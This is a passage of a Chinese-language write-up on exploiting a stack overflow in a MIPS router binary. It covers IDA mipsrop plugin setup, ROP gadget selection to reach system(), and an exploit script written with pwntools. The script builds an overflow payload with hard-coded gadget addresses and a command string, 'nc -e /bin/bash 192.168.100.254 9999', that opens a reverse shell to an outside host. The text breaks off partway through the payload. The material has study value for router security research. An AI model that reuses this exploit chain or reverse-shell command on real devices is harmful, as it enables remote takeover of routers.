         try:
            return obj.endEA
        except AttributeError:
            return obj.end_ea
    
    
    def set_func_flags(ea, flags):
        fn = _get_fn_by_version(idc, 'set_func_attr', 'SetFunctionFlags')
        if idaapi.IDA_SDK_VERSION >= 700:
            return fn(ea, idc.FUNCATTR_FLAGS, flags)
        return fn(ea, flags)
    
    
    def get_func_flags(ea):
        fn = _get_fn_by_version(idc, 'get_func_attr', 'GetFunctionFlags')
        if idaapi.IDA_SDK_VERSION >= 700:
            return fn(ea, idc.FUNCATTR_FLAGS)
        return fn(ea)
    

之后在idapython输入框中输入：

    import mipsrop
    mipsrop = mipsrop.MIPSROPFinder()
    

然后输入`mipsrop.find("")`即可查询可用的gadget：

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/79DFE544-8710-43FC-AC30-7395ECDD4C3E_2/sugPxoT0xnt9JSR8JlqKQBzjbFLy6d4yARbOe6MjTDsz/Image.png)

根据《揭秘家用路由器0day漏洞挖掘技术》一书的方法：先将 `system` 函数的地址 -1 传入某个寄存器中，之后找到对这个寄存器进行加 +1 的操作的 gadget 进行调用即可将`system`地址恢复，因此我们查找`addiu $s0,1`指令，选用gadgets：0x158c8

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/BC16C5F5-9081-42CF-B5E8-0458B074267F_2/HQyYSoBJX7u6u1c1fgYihHRuidIIYAy1uaypW9KoCusz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/FAD3013C-7506-423A-AB14-D9649FF98588_2/kXp4CmlrqZlEg42fOu3oDAWkAKytqC8vFu5oQbm9JLQz/Image.png)

这个gadget可以将s0赋值为`system`函数地址。现在我们还需要找到给`system`函数传参的gadget。利用`mipsrop.stackfinder`，选用gadget：0x159cc。因为其既可以跳转至`system`函数，又可以通过s5给`system`函数传参：

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/E60590F2-2966-414D-9F1B-9BCAE64AAD0F_2/mxJUwe4J0R7rzJbe3GxxlNaDh1WCiz48oMNGRBUhkJYz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/B259320E-F937-4115-A67F-CAC3FACC9F80_2/oxDIkgYDLMVQ1fIjj3xvwNoZhGZoWjyjVKK7f6hk0dQz/Image.png)

编写exp
=====

有了上面两个gadget之后，整体流程如下：

*   劫持地址-->0x158c8（给s0赋值为`system`函数地址，跳转至s5）
*   0x159cc(给system函数传参并跳转执行)

exp如下：

    from pwn import *
    context.endian = "little"
    context.arch = "mips"
    base_addr = 0x77f34000
    system_addr_1 = 0x53200-1
    gadget1 = 0x158c8
    gadget2 = 0x159cc
    cmd = 'nc -e /bin/bash 192.168.100.254 9999'
    padding = 'A' * 973
    padding += p32(base_addr + system_addr_1) # s0
    padding += 'A' * 4                        # s1
    padding += 'A' * 4                        # s2
    padding += 'A' * 4                        # s3
    padding += 'A' * 4                        # s4
    padding += p32(base_addr+gadget2)         # s5
    padding += 'A' * 4                        # s6